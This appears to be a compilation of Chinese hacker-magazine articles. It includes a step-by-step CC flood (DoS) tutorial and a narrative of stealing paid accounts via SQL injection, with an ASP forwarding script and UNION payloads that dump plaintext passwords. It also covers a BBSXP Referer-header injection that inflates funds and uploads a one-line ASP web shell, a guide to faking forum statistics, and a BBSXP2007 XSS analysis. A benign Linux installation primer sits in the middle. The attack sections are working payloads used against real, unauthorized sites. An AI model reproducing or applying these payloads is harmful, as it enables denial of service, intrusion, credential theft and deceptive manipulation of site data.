CC 攻击就是利用大量的代理服务器对目标主机发起大量的连接，同时访问特定的网站，致使目标服务器资源枯竭而形成拒绝服务攻击。特别是当大量的代理服务器访问带有数据库交互的动态 ASP、ASPX、PHP 页面的时候，将会在很短的时间内使服务器崩溃。这与 DoS 及 DDoS 攻击有些相似，但 DDoS 通常使用很多的肉鸡，而 CC 攻击只需要大量的代理服务器就可以了。因此，这种攻击实施起来更简捷，但危害却同样是非常巨大的。

## 二、CC 攻击使用的工具

要实施 CC 攻击，我们可以用到以下工具：花刺代理验证、变异 CC 攻击器和 WsockExpert。首先我们可以到代理中国（www.proxycn.com）网站，在这个网站上我们每天都会找到最新最快的代理服务器列表，也可以直接在 Google 中搜索“最新代理服务器列表”来找到更多代理服务器。对于这些代理服务器大家可以自己整理，也可以直接使用整理好的 `http://www.sagi.net.cn/daili.htm`。打开花刺代理，按“添加资源”，将上述网址地址拷进去，然后选中它，按“下载代理资源”，很快这些代理服务器就会出来。现在上方了，再按右边的“验证全部”，来测试哪些代理服务器还可以使用。通常这些代理服务器并不是全部都可以使用的，在验证完后，可以按“清理”将不能使用的删除掉，最后再按“导出设定”按钮，将能够使用的代理服务器导出来，留待使用。


打开 CC 攻击器，填上我们要攻击的网址，然后打开 WsockExpert，点击最左上角的“打开进程”按钮（图 2），展开 iexplore.exe，也就是 IE 的进程，选择刚才要攻击的网站，然后点击“打开”进行抓包（图 3）。


刷新一下网页就可以抓取到很多数据了，然后点击“暂停”就可以了！从捕获到的数据包中找个有 User-Agent 和 COOKIES 的就可以了（图 4）。把 User-Agent 后面的内容填在 CC 攻击器的“浏览器类型”栏，把 Cookie 数据填在 CC 攻击器的“Cookie”栏，至于“攻击速度”可以设置为每秒 1000，“攻击线程”嘛，自然是越大效果越好！而“代理列表”就可以点击下面的“导入”按钮，将刚才从“花刺代理”中记录代理 IP 地址的文件导入进去；在“攻击列表”栏填和“攻击地址”一样的地址，但是要注意在地址的前面一定要有个“G”，填好后按“添加”，然后按“增加线程”就会提示已经攻击了（图 5）！


我们等一会儿再去访问那个网站，就会发现已经无法访问了（图 6）。

## 三、如何防御 CC 攻击

如何防御 CC 攻击呢？除了对网站本身进行相关的设置外，我们还可以使用 CC 攻击防御专家 withsand 这个工具来达到目的。

工具运行后的界面如图 7 所示，一共有“拦截所有”“变种CC”“普通CC”“空连接”和“全部允许”五个选项，选择每个选项后，后面都会自动给出相应的说明。选择好后，直接启用就可以了。


（文章中涉及到的工具花刺代理验证、变异 CC 攻击器、WsockExpert、CC 攻击防御专家和做好的动画教程文件，已收录在光盘中）

## 附录：帐号获取记

寂寞的刺猬 [L.S.T]

一朋友特好学，某天看到一学习站点上有其需要的视频，可无奈人家需要交费后才能观看，于是便求我帮其获取一个付费的帐号，以暂时“借”用几天！虽说获取他人帐号是不好的，但看在其好学的份上，我就答应了！（嘿嘿，又给人入侵找了一个堂而皇之的理由！）*^_^*。

在该网站上转了一圈，虽说大部分链接都是 HTML，但也找到了些 ASP 的链接。我在找到的一个地址 `http://www.******.com/**s/classlist.asp?classid=15` 后面加入了一个单引号，返回的结果如图 1 所示，提示说“字符串‘15''之前有未闭合的引号”，这可是一个很好的兆头。


图 1

我又将单引号改为 `'and''='`，返回的是正常页面，哈哈，注入点现身了。下面来看一下所用数据库的类型，再将后边改为 `';--` 进行测试，“--”是 MSSQL 数据库的注释语句，如果返回正常页面的话，则说明网站的数据库使用的是 MSSQL。运行后似乎果然让我大喜，正是我最钟情的 MSSQL 数据库。

接下来就可以把任务交给注入工具去完成了。不过，在使用工具前，我还是习惯手动测试一番。先使用测试语句 `' and user=0 and '='` 暴出当前数据库的连接用户名，结果却出现了一个意想不到的结果，如图 2：“多步 OLE DB 操作产生错误”。这是什么错误？我以前还真没有遇到过！什么是“多步”？莫非是我输入的判断条件太多，还是该注入点在 SELECT 语句中还有其它的条件语句？那就使用 `';` 来结束这个语句，并用 `--` 注释掉其后面的语句。我将测试语句又更改为 `'and user=0;--`，执行后的结果如图 3。嘿，暴出了当前数据库的用户名。


图 2


图 3

看来还是可以注入的！不过要是直接使用注入工具去扫描这个注入点的话，恐怕它们是不会认的。果然，我试了几个常用的注入工具，返回的均是：“未检测到注入漏洞”。为什么？看下面我从 IDS 中抓到的一个数据包：`/**s/classlist.asp?classid=15'%20and(char(94)%2Buser%2Bchar(94))>0%20and%20'='`，某暴库用户的方法和我们前面所使用的方法大同小异，那么它返回的结果也应该和图 2 一样——“多步 OLE DB 操作产生错误”；这样的结果当然是不存在注入漏洞了。但如果在注入语句 `'%20and(char(94)%2Buser%2Bchar(94))>0%20and%20'='` 的后面加上 `;--`，闭合注入语句中的单引号并注释掉其后的内容，不就可以实现暴错的目的吗？将构造后的语句在浏览器中提交，返回的结果和图 3 类似，说明在注入工具提交的注入语句后面加入注释语句就能够注入了。但要怎样加入呢？当然还是数据转发了，把注入工具中的地址填为本地 IIS 中的转发脚本，待脚本程序收到注入数据后，在数据后加入注释语句，再发送到目标地址。这样，目标网站所收到的数据就是重新构造的注入数据了。起初本想写个 POST 的转发，但测试后才发现，该注入点只接收 GET 方式的提交，唉！那就 GET 转发吧！转发脚本 JMGET.ASP 的内容如下：

```asp
<%
JmdcwName=request("jmdcw")
' 接收注入工具提交的数据
JmStr=JmdcwName & ";--"   ' 加入注释语句
JmStr=replace(JmStr,chr(32),"%20")
JmStr=Replace(JmStr,chr(43),"%2B")
JMUrl="http://www.***.com/**s/classlist.asp?classid="
JMUrl=JMUrl & "15" & JmStr
Response.write PostData(JMUrl,JmStr)

Function PostData(PostUrl,PostStr)
  Dim Http
  Set Http = Server.CreateObject("msxml2.serverXMLHTTP")
  With Http
    .Open "GET",PostUrl,False
    .Send()
    PostData = .ResponseBody
  End With
  Set Http = Nothing
  PostData = bytes2BSTR(PostData)
End Function

Function bytes2BSTR(vIn)
  Dim strReturn
  Dim i,ThisCharCode,NextCharCode
  strReturn = ""
  For i = 1 To LenB(vIn)
    ThisCharCode = AscB(MidB(vIn,i,1))
    If ThisCharCode < &H80 Then
      strReturn = strReturn & Chr(ThisCharCode)
    Else
      NextCharCode = AscB(MidB(vIn,i+1,1))
      strReturn = strReturn & Chr(CLng(ThisCharCode) * &H100 + CInt(NextCharCode))
      i = i + 1
    End If
  Next
  bytes2BSTR = strReturn
End Function
%>
```

```asp
bytes2BSTR = strReturn
End Function
%>
```

接下来在 HDSI 的注入地址中填入：`http://127.0.0.1/img-el.asp?jndcw=15`，再次检测，这次顺利得到目标数据库中的一些信息，如图 4。但接下来的猜解表名中，却发现非常慢，HDSI 就好像进入了“死”的状态。使用 WinSock 进行抓包，却发现有大量的数据在传输，莫非在这个数据库内存放了大量的数据表？而现在的注入虽然是暴错的方式，但还要经过数据转发，来来回回地折腾好几次，所以 HDSI 就出现假“死”状态。如果不用暴错的方法，有没有更快的方法呢？


图 4

比暴错方式更快的方法就是使用“Openrowset”注入工具——CADT，但使用这个工具的前提是要有一个 MSSQL 数据库的用户权限，并且这个 MSSQL 数据库还要能被入侵目标的 MSSQL 服务器访问到，怎么找啊！空空，没有一个符合条件的 MSSQL 数据库，这个方法只能作罢！

除了“Openrowset”式注入方法还有没别的方法呢？在看了一会儿目标站点中的注入点后，我想到了 UNION 查询。UNION 查询也叫联合查询，就是将 UNION 前后的 SELECT 查询的结果合并在一起显示。这个查询的优点就在于直接把数据提示到网页中，这种查询方式比 CADT 还要快！但要使用 UNION 也有一些条件：一是要有一个可以显示多项数据的注入点，二是前后两个 SELECT 语句中的查询列的数量要相等，排列顺序要相互对应，数据类型要兼容。

先来满足 UNION 查询的第一个条件，找到一个可以显示多项数据的注入点。虽然我前面找到的注入点也显示多项数据，但只有一列，要是再找到一个能显示多行多列的注入点就好了。经过一番测试，管理员还真是大方，在 `http://www.****.com/s*/classindex.asp?classshop=其他类` 中又贡献出了一个注入点，在这个页面中所显示的就是多行多列数据，符合 UNION 查询的第一个条件。

好了，接下来满足 UNION 查询的第二个条件，匹配前后 SELECT 中的数据。先来获取注入点所在 SELECT 语句中的查询列个数。在 `http://www.****.com/s*/classindex.asp?classshop=其他类` 后加入 `order by 5;--`，这个测试语句的意思是判断查询列的个数是否大于等于 5，如果显示的是正常页面，说明列的个数大于或等于 5。当我测试到 15 时，返回了一个错误显示，如图 5：“15 超出了列表项数目”。那么 14 呢？14 是正常显示，这样列的个数就得到了，是 14 个。


图 5

在第二个 SELECT 中，还需要一个表名，其实也可以用 `sysusers` 或 `sysobjects` 这些默认表名来代替，但为了避免出现意想不到的错误，还是用当前连接的表名吧。将测试语句改为 `having 1=1--`，在 SQL 语句中 `having` 是 `Group By` 的子句，和类似于 `Select` 中的 `Where`，都是条件语句；但在没有 `Group By` 的情况下使用 `having` 子句，就会出现错误，而这个错误继承了 SQL 的优点，会好心地把表名显示出来，如图 6，其中的 `shop_content1` 就是第一个 SELECT 语句所使用的表名。


图 6

至此，UNION 所需要的条件全部满足了，下面就开始构造第一个 SELECT 语句。如下：

```text
http://www.*****.com/s*/classindex.asp?
classshop=00' union select,null,null,null,null,null,
null,null,null,null,null,null,null,null from
[shop_content]--。
```

在使用之前先解释一下其中的意思：注入点由“其他类”改为“00”（一个不存在的值），是为了屏蔽第一个 SELECT 所查询出的信息；而第二个 SELECT 中有 14 个 null，是为了匹配第一个 SELECT 中的列个数及类型，因为 null 代表空值，其类型既可以是数值型，也可以是字符串型。将该语句在地址栏中提交后，却返回了一个错误页面，如图 7：“不能以 DISTINCT 方式选择 text、ntext 或 image 数据类型”。


图 7

所谓“DISTINCT”，就是消除重复行的一个选项。出现这样的提示，说明在前面的 SELECT 语句中使用了 Distinct 项，那么我在后面的 SELECT 中加入 DISTINCT 是不是就可以摆脱这个结果？错误仍旧！怎么办？难道转身回到暴错的阶段？我翻出一本关于 SQL 数据库的书籍，在其中浏览了一遍对 UNION 的介绍，忽然发现有这么一句：在 Union 运算符中，如果使用了 ALL 选项，则所有结果行包括重复行都将被显示；在 UNION 语句中，ALL 选项不是默认值，必须要明确指定。这是什么意思？莫非在 UNION 中加入 ALL 选项就可以和前面 SELECT 中的“DISTINCT”相匹配了。管它呢，先试一下，将 All 加在 union


图 8

之后，再次执行，一下子显示出了很多空行，如图8。嘿嘿，忘记在 SELECT 中加入 Top 关键字了。接下来，使用数字 1~14 进行替换 null，经过一番测试，终于找出了可以在页面中显示的字段，分别是第四个（字符型）、第六个（字符型）、第十个（数值型）和第十一个（数值型）。

接下来，在 UNION 的大力支持下，我只用了四步就拿到了付费账号的密码。哪四步呢？

- **第一步：查询所有的数据库名**
- **第二步：得到某个数据库中的表名**
- **第三步：得到某个表中的列名**
- **第四步：获取账号密码**

### 第一步：查询所有的数据库名

其实这一步可以跳过，因为在注入点中，只要将测试语句改为 `and (select db_name(0))=1` 就可以得到当前数据库的名字。但为了全面考虑，还是从“sysdatabases”表查询出所有的数据库以备后用。

```
http://www.****.com/s*/classindex.asp?classshop=00' union all select 1,2,3,name,5,6,7,8,9,10,11,12,13,14 from [master].[dbo].[sysdatabases]--
```

### 第二步：得到某个数据库中的表名

查询出了数据库名，接下来就该查询当前数据库中的表名了。

```
http://www.****.com/s*/classindex.asp?classshop=00' union all select 1,2,3,id,5,6,name,8,9,10,11,12,13,14 from [当前库名].[dbo].[sysobjects] where xtype='U'--
```

这个语句的意思是从“sysobjects”表中查询出所属“当前库”的用户表名，`xtype='U'` 中的“U”代表的就是用户表。

### 第三步：得到某个表中的列名

有了表名，还要得到其中的列名，才能查出相关的信息。

```
http://www.*****.com/s*/classindex.asp?classshop=00' union all select 1,2,3,xtype,5,6,name,8,9,10,11,12,13,14 from [当前库名].[dbo].[syscolumns] where id=object_id('当前库名.dbo.表名')--
```

其中的 `object_id('当前库名.dbo.表名')` 是将要查询的表名转换为 ID 值。`xtype` 是列名的类型，文中列出了部分类型对应关系：34-image，35-text，56-int，61-datetime，167-varchar，231-nvarchar。

### 第四步：获取账号密码

从上面分析出的列名中，找到了一个极有可能保存用户信息的表，因为其中的列数过多，而在当前页面中只能显示四个列，我决定先从几个敏感的列入手。

```
http://www.****.com/s*/classindex.asp?classshop=00' union all select top 50 1,2,3,username,5,6,password,8,9,id,11,12,13,14 from [当前库名].[dbo].[表名]--
```

查询后的结果如图9所示，前 50 个用户的名称及密码哗哗地就出来了！密码还是明文显示。随后通过调整查询列与条件，定位权限字段并筛出付费账号。若在 SELECT 语句不加 Top 会导致数据一次性显示过多，因此使用 `IN` / `NOT IN` 分段提取，例如取 50~100、100~150 区间用户。


看着得到的付费账号，我忽然感慨万千。文中继续讨论了注入点执行能力、数据库权限（如 DB_OWNER）以及同服跨库读取等风险，并提醒应尽快通知管理员修复。


## 一、了解 Linux

Linux 是完全开放源代码的操作系统，通常可免费下载使用。文中提到发行版包括 RedHat Linux、RedFlag Linux、SuSE Linux、Debian Linux 等，并简述了与 Windows 生态和授权模式的差异。

## 二、安装 Linux

要安装 Linux 需要安装光盘或安装文件，可从红旗 Linux 官网（http://www.redflag-linux.com）下载 ISO 镜像。文中介绍了刻盘安装、硬盘安装、虚拟机安装等方式，并提到与 Windows 双系统时需注意分区与文件系统兼容问题。

> **小提示：**
>
> 如何正确地划分出 Linux 安装所需要的硬盘分区是 Linux 安装的一个重点。对于已经安装有 Windows 系统的电脑来说，可以使用“计算机管理”中的“磁盘管理”将不准备使用的 Windows 分区都删除，用以安装 Linux 系统（图1）；或者使用 pqmagic（魔术分区）从原来的 Windows 分区中直接重新划分出一块，再删除掉，用以安装 Linux。

下一步（图3），下面就进入最重要的分区了。如果我们是在虚拟机上安装的，可以选择自动分区；但是倘若我们是在硬盘上安装双系统的话，就必须得选择手动分区，以免清空硬盘数据（图4）。


图1


图4


图2

点击下一步，就会出现分区的界面（图5）。由于要做图的原因，我就选择了在虚拟机上安装。一般我们可以分成三个区：一个是交换分区（swap）；一个是根分区（/），这是 Linux 的主要安装分区；一个是 home 分区（/home），用于平时我们存放资料和系统设置保存的分区。其实我们只分成交换分区和根分区也可以。


图3


图5

分区的问题解决后，我们重新启动电脑，设置为从 CDROM（光盘）启动，这点和安装 Windows 相同。插入 Linux 的第一张安装光盘，RedFlag Linux 就会自动引导进入安装界面（图2）。直接按 Enter 键可以进入图形化安装，输入 text 后再按 Enter 键则进入文本方式安装。对于初学者，我们建议采用图形化安装界面。进入真正的安装界面后，和安装 Windows 一样，需要阅读 RedFlag Linux 的安装条款，选择接受，然后继续。

我一共为 Linux 分配了 10G 的空间，具体分配情况为：交换分区 swap 为 1GB，home 分区为 2G，根分区为 7G。下一步就是配置引导，如果系统中已经安装有 Windows 的话，在这里就会看到 Linux 及 Windows 的两个选项。接下来就是配置网络了，如果使用 DHCP 自动分配 IP，直接下一步即可；如果使用静态 IP，则需要取消“通过 DHCP 进行配置”，并填写 IP 地址、子网掩码、网关、DNS 等信息。


完成之后点击下一步，就来到配置 root 密码的界面了。我们需要给 root 设置一个强壮的密码（图9），然后点击下一步，就出现了准备安装的画面。再点击下一步，就开始安装了。我们终于可以歇歇了，安装速度取决于你的电脑配置（小编注：对于有的 Linux 系统，比如 RedHat，还取决于我们选择安装的软件包大小）。中间提示更换光盘的时候，只要取出第一张光盘，换上第二张，然后点确定就 OK 了。全部安装完成后需要重启电脑，然后我们就可以使用 Linux 了。

## 二、使用 Linux

对于初次成功安装好 Linux 系统的菜菜来说，肯定会有一番成就感的。来看看我的 Linux 桌面吧（图10）。系统已经安装完成了，可是我们能在 Linux 下干什么呢？其实，几乎在 Windows 下的全部应用，在 Linux 下也完全可以实现，比如听 CD、MP3、看影碟、玩游戏、上网浏览网页等等。


我们来简单地看几个 Linux 下的最常用命令。

- **mkdir 创建目录**  
  用法：`mkdir duron` 在当前目录下创建一名为 duron 的目录。  
  `mkdir /home/duron` 在 `/home` 目录下创建 duron 子目录。

- **cp 拷贝文件（类似于 Windows 下的 copy 命令）**  
  用法：`cp /etc/passwd a.txt` 将 `/etc` 目录下的 passwd 文件拷贝到当前目录并重命名为 `a.txt`。  
  `cp -r /home/duron /` 将 `/home/duron` 拷贝到根目录下。

- **ls 列出目录（类似于 Windows 下的 dir 命令）**  
  用法：`ls` 列出当前目录下的文件，并可按颜色区分不同类型文件。

- **rm 删除目录或文件**  
  用法：`rm duron.txt` 删除当前目录下的 `duron.txt` 文件。  
  `rm -r duron` 删除当前目录下的 duron 目录及其中的文件。

在 Windows 下，假如我们想编写并执行 C、PERL 等程序的话，需要另外安装第三方的软件包；但在 Linux 下，这些软件包在安装系统的时候就已经被安装好了。我们来简单地编写一个输入三个数，并寻找最大数的程序，源代码如下：

```c
#include <stdio.h>
main()
{
    int a,b,c,max;
    printf("请输入三个数a,b,c:\n");
    scanf("%d,%d,%d", &a, &b, &c);
    max = a;
    if (max < b) max = b;
    if (max < c) max = c;
    printf("最大数为:%d\n", max);
}
```

## 黑客研究院

我们可以使用 vim 编辑器，而编译器使用的是 gcc。双击桌面上的“系统终端”图标，我们可以看到 `[root@localhost ~]#` 的提示，最后面是个“#”。在 Linux 中“#”代表 root 用户，而“$”则代表普通用户。

```bash
[root@localhost ~]# cd /home
[root@localhost home]# mkdir duron
[root@localhost home]# cd duron
[root@localhost duron]# vi max.c
```


图11

接下来就进入 vi 编辑器了，但现在你无法输入任何字符，按“i”键插入字符，输入以上源代码，按 ESC 键；输入 `:wq`，意思是保存并退出（`w` 是写入，`q` 是退出，`q!` 是强行退出）。在 vi 模式中，前面一定要加“:”，执行命令前一定要退出编辑模式（即按 ESC 键）。

下面我们使用 gcc 编译程序：`[root@localhost duron]# gcc -o max max.c`。gcc 的用法是：`gcc -o [输出文件名] [输入文件名]`。编译成功的话不会有提示（如果有错误，我们还是使用 `vi max.c` 命令来编辑 `max.c` 文件，在需要提示行数的时候只要使用 `set number` 就会显示行数了）。我们来运行一下编译好的程序。

```bash
[root@localhost duron]# ./max
请输入三个数 a,b,c:
44,66,77
最大数为77
[root@localhost duron]#
```

程序执行成功了，以后在 Linux 下也可以轻松地编写 C 程序了。好了，限于篇幅，就简单地写到这儿吧……

**小编点评：** 对于从没有接触过 Linux 系统的菜鸟来说，最大的困难不是 Linux 下的各种操作及基础应用，而是如何正确地将 Linux 系统安装进我们的电脑中……


## 跟我一起来找 BBSXP 系统的漏洞

BBSXP 是国内使用比较多的一款论坛系统，而 yuzi.net 则是 BBSXP 的官方论坛……在通读源代码的时候，不经意地找到了一个注入漏洞，结果我又在 bbs.yuzi.net 走了一把，成功得到网址进入权限 WEB SHELL。

这次在读 BBSXP 的源程序时，我发现了一个很奇怪的过程。Setup.asp 文件是 BBSXP 系统的函数文件，在第 394 行有一个 log 过程，代码如下：

```asp
sub Log(Message)
  if Request.ServerVariables("Query_String")<>"" then ...
  Conn.Execute("insert into [BBSXP_Log] (...)")
end sub
```

从以上代码中，我们可以明显地看到 `Request.ServerVariables("REMOTE_ADDR")`、`Request.ServerVariables("server_name")`、`Request.ServerVariables("script_name")`、`Request.ServerVariables("Query_String")`、`Request.ServerVariables("HTTP_REFERER")` 这五个 HTTP 头参数没有经过过滤就直接放进了数据库。

在右栏继续分析中指出：`Request.ServerVariables("Query_String")` 和 `Request.ServerVariables("HTTP_REFERER")` 可以构造注入字符，从而进行 MSSQL 注入攻击。随后作者在 BBSXP 代码里排查调用点，定位到 `Bank.asp` 并展开漏洞测试过程。

11 个帖子，才可以进行一次转账的操作，痛苦 ING……

在经过痛苦漫长的等待后（注册完新账号后需要等待 20 分钟，才可以发帖子），趁版主不注意，猛灌 11 个帖子，现在总算有了 11 块钱。可以开始构造我们的测试语句了。

先来看看我们本来的封包，联系上下文，构造封包如下：


这个封包的意思就是向 admin 这个家伙送钱 10 块钱过去。当然我们是不能直接发送这个封包的。为什么？因为 10 块钱就这么白白地转过去了，谁愿意呀？当然要构造语句帮我们做点事情才行。

在考虑了 1 秒钟后，我决定首先要做的事情就是得到 10000 块钱。经过仔细地研读代码，我找到了存储金钱的字段，嘿嘿，来准备加钱了。


把以上封包发送过去，我们主要看 Referer：`http://bbs.yuzi.net/bank.asp','a','post','cheng');update [BBSXP_Users] set [UserMoney]=10000 where id=123536--`

构造这样的 HTTP 头地址，就可以进行多句执行。首先把我在银行里的金钱改成 10000 再说。哈哈，可以慢慢进入了（为了节省篇幅，下面的描述我只给出修改了后的部分）。现在进入银行查看一下我的钱，嘿嘿，果然是 1 万了。

这个地方确实是可以注入的，如图 1。

| 字段 | 值 |
|---|---|
| 现金 | ￥10000 |
| 利息 | ￥0 |
| 存款 | ￥0 |
| 总共 | ￥10000 |
| 存款时间 | 2006-12-17 下午 08:11:21 |

图1

然后我开始思考如何才能得到 WEBSHELL。经过一系列的探测，我发现数据库和网页并不在同一个服务器上，所以先前打算备份日志或者差异备份来得到 WEBSHELL 的想法只好打消了。我决定只通过 BBSXP 自带的功能来得到 WEBSHELL。

首先是如何得到后台，最新版的 BBSXP，MSSQL 数据库版本的后台也就多了几个注入点而已，没有什么用的。于是我想着添加上传类型，看是否能够上传一个 WEBSHELL 上去。我们必须要先否决几个类型，asp、asa、cer 和 cdx 这四个类型的文件在代码里已经明文禁止了，不能上传。于是我添加 ASPX 类型上去，上传成功，不过服务器不支持；接着又添加 PHP 类型上去，上传成功，不过服务器也不支持。……

我苦思冥想了大概半个小时，最后终于想到了一个办法。FSO 写文件名的时候，如果遇到空字符，那么这个空字符后面的字符就会被忽略。比如我们用 FSO 写一个文件名是 `admin%00.jpg`，那么我们实际上写上去的文件名就是 admin。……

```
Referer: http://bbs.yuzi.net/bank.asp','a','post','cheng');update [BBSXP_SiteSettings] set UpFileTypes=UpFileTypes+'|asp'+char(0)+'a' where 1=1--
```

然后提交给服务器。这样服务器就加上了一个允许的类型，这个类型就是“asp 空字符 a”，如图 2，表示我们的语句是没有错误的。


图2

我们试着提交。


```asp
Content-Disposition: form-data; name="file"; filename="E:\muma.asp a"
Content-Type: text/html

<%if Request("#")<>"" Then Execute(Request("#"))%>
```

这和动易当年的上传漏洞差不多了。注意“muma.asp a”中间的空格要用16进制编辑器改成00，也就是空字符的意思，然后发送封包。

就会提示我们上传 UpFile/UpAttachment/2006-11/20061117202542.asp 成功，如图3；然后找到我们上传的文件，接下来的事就不用我说了吧，哈哈。

```text
[url=UpFile/UpAttachment/2006-11/20061117202542.asp][img]images/arrx.gif[/img]muma.asp[/url]
```

图3

对于BBSXP来说，存在注入点得到WEBSHELL的方法不只这一个。我只是选择了一个自己认为最简单的方法而已，假如各位读者能够找到更有效的方法的话，也欢迎一起分享。其实只要对方是mssql版本的bbsxp7，并且允许上传文件，就可以直接一步得到权限。

如果不允许上传文件的话，假如MSSQL是在同一个服务器上的，就可以使用LOG备份的方法来拿到权限，这些就请各位读者发挥自己的想象了。

最后再来说说这个漏洞的修补方法，就是过滤HTTP头文件，不要直接放进数据库。如果实在修补不了的话，就请暂停其银行功能，这样就可以简单地来防范这个漏洞了。

### 小编点评：

这是一篇漏洞分析及利用的文章，针对的则是有一定脚本基础的菜鸟。对于菜鸟读者来说，文章中的那些代码分析是枯燥难以理解的，因此，以后碰到这类文章，菜鸟们就需要直接略过分析部分，而把重点放在漏洞和利用方法及利用思路上，而不要过多地在那些代码及分析上停留。

当我们以后接触得多了，基础更扎实了，也许，那些分析就看得懂了！

## 手把手教你伪造论坛人气

杨若琦

最近我也赶时髦弄了一个网站，这个站长真不好当，就说这个点击率吧，我就想了很长时间该如何推广。后来才恍然大悟：论坛不是使用的ASP么？我可以使用编程的办法来改写程序，达到随机产生一个数当作各版的发帖量、各帖的点击率……

什么是ASP呢？其实ASP是一种动态页面全称的缩写，它是微软推出的一种以程序代码为基础的网页语言，ASP支持VBS和JS代码，并且能够有权限与客户和服务器文件系统数据库通讯。

现在很多论坛都在使用ASP+ACCESS的这种架构。我把论坛源程序下载到本地电脑里进行调试，我的系统使用的是Windows XP Professional + IIS……本文我们以BBSXP6正式版为例。


图1

出现了论坛页面，说明我们的IIS安装成功了。论坛栏里有很多像今日、主题、帖子之类的计数设置，我们就是在诸如这些写着数字的地方作修改。比如图1中就是默认页面Default.asp，使用记事本打开它，如图2。


图2

我们跟踪到了“例如注册会员、主题总数”等地方，看到类似 `<%=Statistics("TotalUser")%>` 的地方了吗？在这里，我们把等号后面的东西改掉就可以达到伪造注册会员数、主题总数、帖子总数、今日帖数的目的了。

```asp
注册会员：<%=Int(10000 * Rnd)%>&nbsp;
主题总数：<%=Int(10000 * Rnd)%>&nbsp;
帖子总数：<%=Int(1000000 * Rnd)%>&nbsp;
今日帖数：<%=Int(1000 * Rnd)%>&nbsp;
```

相同的，使用此方法把在线统计那些也给改写一下。再打开Setup.asp进行编辑（图3），找到今日、主题、帖子等关键字的地方，换汤不换药地把里面的东西也给替换了。

```html
<td width="33%">今日:<font color="red"><%=Int(1000 * Rnd)%></font></td>
<td width="33%">主题:<%=Int(1000 * Rnd)%></td>
<td width="33%">帖子:<%=Int(10000 * Rnd)%></td>
```


图3

哦，忘记了，还有一个每个版面的统计，速度打开ShowForum.asp，找到“目前论坛总在线”关键字所在的地方，使用相同的办法更改一下就行了（图4）。


最后就是帖子的点击率了，因为点击率数字前面没有任何关键字可供参考，于是我们就想办法从数据库那里入手。所谓的数据库其实就是一个记录数据的文件，本文用的是ACCESS数据库。我们可以直接打开网站目录Data文件夹下的BBSxp6.mdb文件，启动ACCESS程序对其进行编辑。


在编辑前，我们还要确定一下点击率是存在哪个表里，因此在浏览器里我们对测试用的帖子进行惨无人道的刷新……最终我们确定了点击率为123次。回到数据库（ACCESS）那里，挨个表打开看看，最后终于在BBSXP_Threads表中的Views列找到了123的身影。


好了，这回我们以BBSXP_Threads和Views为线索，使用Windows搜索工具进行搜索。结果我们在搜索BBSXP_Threads关键字时搜索出来N个，经过反复揣摩这些文件名，将矛头直指ShowForum.asp。找到BBSXP_Threads关键字之后，向下找，结果就发现了ShowThread()函数，没错就是它了。于是我满怀信心地找到了ShowThread函数的老家（图7）。

我就这么一直找，一直找……终于找到了 `<td align=center><%=Rs("Views")%></td>` 一句。我二话不说，上去就是一阵乱改，`Rs("Views")` 也已经变成了 `Int(1000 * Rnd)`。最后在Setup.asp最上面的 `<%` 后面跟上一行 `Randomize Timer`，这样程序就完美了！最终，我们打开浏览器看一下效果吧，如图8、图9。


本文主要的目的是引导大家ASP网页设计入门，并且对ASP程序的修改有所了解，并通过实际的操作快速理解论坛数据库、ASP网页和服务器以及客户端之间的联系与区别。

## BBSXP2007 发帖跨站漏洞

### 挖掘全过程


Helokitty[TAT]

BBSXP是一款老牌的基于ASP的BBS程序，其特点是程序简洁、负载量高。5月7日，BBSXP官方在论坛发布了最新的BBSXP2007版本。今天我抽了一点时间对其进行了简单的安全检测，发现了一点小问题，这里与各位读者分享一下我的漏洞挖掘过程。

我发现的这个漏洞就是在发帖时，可以构造跨站代码，构造完整跨站代码后，一方面可以对访问者造成威胁，另一方面也可以通过跨站提交表单的方法来获取论坛管理员权限，继而获得webshell来控制服务器，危害性不言而喻。

将BBSXP2007下载到本地，架设好后打开论坛，首先进入后台管理界面，建立版面以及论坛，以方便我们测试。当然，其它设置不能够更改，因为我们是讨论在论坛默认安装情况下通用的漏洞。退出管理员登录，然后新注册一个用户并且登录。

为了方便测试，我们需要对原有的表单提交进行一些改变，将发帖页面另存下来，将其原有帖子内容部分的表单域（是以iframe形式调用的外部js中的在线编辑）删除，而后自己添加一个多行文本域，这样避免在提交时被在线编辑器进行代码转义，而后修改表单的提交路径。当然这里BBSXP没有做提交的来路检测，如果做了来路检测，我们也可以使用nc来提交数据。

据此，这些大家都应该很熟悉了，就不再详细叙述了。然后，我们打开发帖页面，并试着在标题、帖子内容以及标签中输入一些常用的跨站代码，比如 `<script>alert('XSS')</script>` 等，提交后均发现不成功，这时我们转到代码部分来分析一下。打开 `addTopic.asp` 页面，我们找到处理发帖部分的代码，如下：

```vb
' 获取用户填写的信息，我们主要来讲解这部分
Subject=HTMLEncode(Request.Form("Subject"))
Category=HTMLEncode(Request.Form("Category"))
Body=BodyEncode(Request.Form("Body"))
Tags=HTMLEncode(Request.Form("Tags"))
ThreadEmoticonID=RequestInt("ThreadEmoticonID")

If Request.Form("DisableYBCode")<>"" Then
  Body=YbEncode(Body)
End If

If Len(Subject)<2 Then Message=Message&"<li>文章主题不能小于2字符"
If Len(Body)<2 Then Message=Message&"<li>文章内容不能小于2字符"
If Len(Tags)>255 Then Message=Message&"<li>标签不能大于255字符"

'（省略投票部分的处理代码）

Conn.Execute("Update [BBSXP_Users] set TotalPosts=TotalPosts+1 ...")
Rs.Open "select * from [BBSXP_Threads]",Conn,1,3
Rs.AddNew
Rs("PostAuthor")=CookieUserName
Rs("PostTime")=Now()
Rs("Topic")=Subject
Rs("ForumID")=ForumID
Rs("Category")=Category
Rs("Tags")=Tags
Rs("ThreadEmoticonID")=ThreadEmoticonID
...
Rs.Update
Rs.Close
```

当然，作为漏洞检测来说，我们主要关注的就是获取用户输入的部分了。这里在获取用户输入后，主要用了两个函数进行处理，一个是 `HTMLEncode()`，另一个是 `BodyEncode()`。其中 `HTMLEncode()` 是对于除帖子内容外的用户输入进行过滤的，而 `BodyEncode()` 则是对帖子内容进行处理的。我们主要来看看帖子内容的处理部分 `BodyEncode()`。

```vb
function BodyEncode(fString)
  fString=Replace(fString,vbCrLf,"")
  fString=Replace(fString,"\","&#92")
  fString=Replace(fString,"'","&#39")
  fString=Replace(fString,"<a ","<a target='_blank' href=")
  ...
end function
```

```vb
If SiteConfig("BannedHtmlLabel")<>"" Then
  fString=ReplaceText(fString,"<" & SiteConfig("BannedHtmlLabel") & ">","",1,2)
End If

If SiteConfig("BannedHtmlEvent")<>"" Then
  fString=ReplaceText(fString," " & SiteConfig("BannedHtmlEvent") & "=","",1,2)
End If

If SiteConfig("BannedText")<>"" Then
